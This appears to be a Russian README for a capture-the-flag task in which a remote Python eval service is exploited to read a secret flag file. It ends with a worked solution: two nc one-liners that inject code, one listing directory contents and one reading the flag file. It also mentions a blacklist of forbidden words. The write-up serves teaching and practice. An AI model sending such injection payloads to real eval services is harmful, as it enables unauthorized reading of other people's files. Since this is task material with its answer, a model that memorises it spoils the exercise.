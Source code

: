 Python eval
===========

> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные.
Заполучите их!  

Файлы
-----
1. **eval.py** - Исходный код
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Псевдо исходный код, который доступен участникам

Запуск
------
```
python3 eval.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)

---

Решение
-------
1. получить список файлов в папке
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```